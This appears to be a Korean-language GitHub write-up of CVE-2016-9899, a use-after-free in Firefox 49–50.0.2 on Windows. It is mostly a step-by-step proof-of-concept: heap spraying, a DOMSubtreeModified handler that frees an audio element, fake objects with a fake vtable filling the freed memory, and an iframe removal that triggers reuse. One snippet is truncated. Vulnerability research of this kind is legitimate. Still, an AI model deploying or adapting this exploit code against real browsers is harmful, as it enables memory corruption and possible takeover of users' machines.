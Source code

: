 # Firefox nsHTMLDocument SetBody Use-After-Free

## Information
- CVE : 2016-9899
- 해당 소프트웨어 : Mozilla Firefox (on Windows)
- 해당 버전 : Firefox 49.0 ~ Firefox 50.0.2
- 취약점 유형 : Use-After-Free

## Root Cause
DOM 구조에서 하위 노드들의 이벤트들을 조작하는 과정에서 `audio` 태그를 생성하고 지우면 use-after-free 취약점을 발생시킬 수 있다. 취약점에 대한 자세한 설명은 생략하고 이를 트리거하는 과정에 대해 간략하게 서술한다.

(1) 특정 이름(여기서는 `exp`)의 iframe 태그를 생성한다.
```html
<iframe src='about:blank' id='exp' width="100%"></iframe>
```
(2) 위에서 만든 태그로 DOM 구조체 형성 및 fake object를 생성하기 위한 힙 영역을 미리 할당하고 해당 DOM 구조체 내에서 변경이 일어날 경우 handler 함수를 호출하도록 설정한다.
```js
var hh = spray(4096, 1024);
document.body.setAttribute('hh', hh);
doc = document.getElementById("exp").contentWindow.document;
doc.getElementsByTagName("*")[0].addEventListener("DOMSubtreeModified", handler, false);
doc.getElementsByTagName("*")[0].style = "PWNED";
setInterval("pwn();", 1000);
```
(3) 위에서 DOM의 하위 노드들이 변경될때마다 `handler`를 호출하는데 이는 audio 태그를 생성하여 추가하고 삭제하는 역할을 한다.
```js
function handler()
{
    if(cnt > 0)
        return;
    doc.body.appendChild(document.createElement("audio")).remove(); // free
    spray(1024, 1024);
    ++cnt;
}
```
(4) 위의 작업들이 끝나고 pwn 함수를 호출하는데 이는 free된 영역을 fake object로 채우는 역할을 한다.
```js
for(var i=0; i<4096; i++) // fill the hole
{
    fake_object[i] = new Uint32Array(256);
    fake_object[i][0] = 0x61626364; // fake vtable
    for(var j=1; j<256; j++)
fake_object[i][j] = 0x91919191;
```
(5) 마지막으로, 이미 해제된 iframe 태그를 다시 해제하려고 할 경우 use-after-free 취약점이 발생하게 된다.
```js
window.fake_object = fake_object;
document.getElementById("exp").remove(); // re-use...Boom!!
```
